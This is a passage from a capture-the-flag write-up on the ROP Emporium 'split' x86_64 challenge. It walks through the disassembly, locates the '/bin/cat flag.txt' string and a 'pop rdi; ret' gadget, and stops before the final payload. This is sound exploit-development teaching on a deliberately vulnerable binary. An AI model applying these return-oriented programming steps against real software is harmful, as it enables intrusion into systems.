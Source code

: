 And here we have the disassebled if the usefulFunction:

```asm
┌ 17: sym.usefulFunction ();
│           0x00400742      55             push rbp
│           0x00400743      4889e5         mov rbp, rsp
│           0x00400746      bf4a084000     mov edi, str._bin_ls        ; 0x40084a ; "/bin/ls" ; const char *string
│           0x0040074b      e810feffff     call sym.imp.system         ; int system(const char *string)
│           0x00400750      90             nop
│           0x00400751      5d             pop rbp
└           0x00400752      c3             ret
``` 

This function as the ret2win function of the previous challenge it is never called. This function execute the system function with as argument
the string '/bin/ls'.

In the x86_64 architectures the argument of the function are passed trough the register, as we can se here. The address where the string '/bin/ls'
is stored inside the elf file is placed inside the edi register, then the system function is called.

**In a 64bit Linux machine Function parameters go in registers rdi, rsi, rdx, rcx, r8, and r9.  Any additional parameters get pushed on the stack.**

So, first of all we need to find our '/bin/cat flag.txt' string. Then we need to place that string into the edi register and after call the system
function at 0x0040074b.

First, find the string using  
``` 
rabin2 -z split 
``` 
this is the result:

``` 
[Strings]
nth paddr      vaddr      len size section type  string
―――――――――――――――――――――――――――――――――――――――――――――――――――――――
0   0x000007e8 0x004007e8 21  22   .rodata ascii split by ROP Emporium
1   0x000007fe 0x004007fe 7   8    .rodata ascii x86_64\n
2   0x00000806 0x00400806 8   9    .rodata ascii \nExiting
3   0x00000810 0x00400810 43  44   .rodata ascii Contriving a reason to ask user for data...
4   0x0000083f 0x0040083f 10  11   .rodata ascii Thank you!
5   0x0000084a 0x0040084a 7   8    .rodata ascii /bin/ls
0   0x00001060 0x00601060 17  18   .data   ascii /bin/cat flag.txt
``` 

So at 0x00601060 we have our precious string '/bin/cat flag.txt' we need to find a way to place the address 0x00601060 inside the rdi register.

We can search for some gadgets using ropper

``` 
(.pwn) eurus@warfare:~/Documents/split_all/split$ ropper -f split --search 'pop rdi'
[INFO] Load gadgets from cache
[LOAD] loading... 100%
[LOAD] removing double gadgets... 100%
[INFO] Searching for gadgets: pop rdi

[INFO] File: split
0x00000000004007c3: pop rdi; ret; 
``` 
